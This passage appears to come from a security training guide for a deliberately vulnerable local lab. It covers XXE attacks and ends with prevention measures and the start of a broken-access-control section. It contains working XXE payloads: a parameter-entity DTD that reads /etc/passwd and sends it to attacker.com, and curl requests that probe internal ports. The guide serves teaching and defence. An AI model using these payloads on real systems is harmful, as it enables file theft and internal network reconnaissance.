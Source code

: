 **Explanation:** Attempt to read local files through external entity references.

#### Step 3: Parameter Entity Attack
**Objective:** Use parameter entities for more complex attacks

```bash
curl -X POST "http://localhost:5000/api/vuln/xxe" \
  -H "Content-Type: application/xml" \
  -d "<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY % xxe SYSTEM \"http://attacker.com/evil.dtd\"> %xxe;]><root></root>"
```

**Create evil.dtd file on your server:**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/exfil?data=%file;'>">
%eval;
%exfiltrate;
```

**Explanation:** Load external DTD for out-of-band data exfiltration when direct reading doesn't work.

#### Step 4: Internal Network Scanning
**Objective:** Scan internal network through XXE

```bash
curl -X POST "http://localhost:5000/api/vuln/xxe" \
  -H "Content-Type: application/xml" \
  -d "<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY xxe SYSTEM \"http://192.168.1.1:80\">]><root>&xxe;</root>"

curl -X POST "http://localhost:5000/api/vuln/xxe" \
  -H "Content-Type: application/xml" \
  -d "<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY xxe SYSTEM \"http://localhost:22\">]><root>&xxe;</root>"
```

**Explanation:** Use XXE to probe internal network services that are not accessible from the outside.

### Prevention Measures
1. Disable external entity processing in XML parsers
2. Use less complex data formats like JSON when possible
3. Implement input validation for XML data
4. Use XML libraries with secure default configurations
5. Whitelist allowed DTDs and schemas

---

## 6. Broken Access Control

### Vulnerability Description
Access control vulnerabilities occur when users can access resources or perform actions beyond their intended permissions, often through manipulation of URLs, parameters, or missing authorization checks.
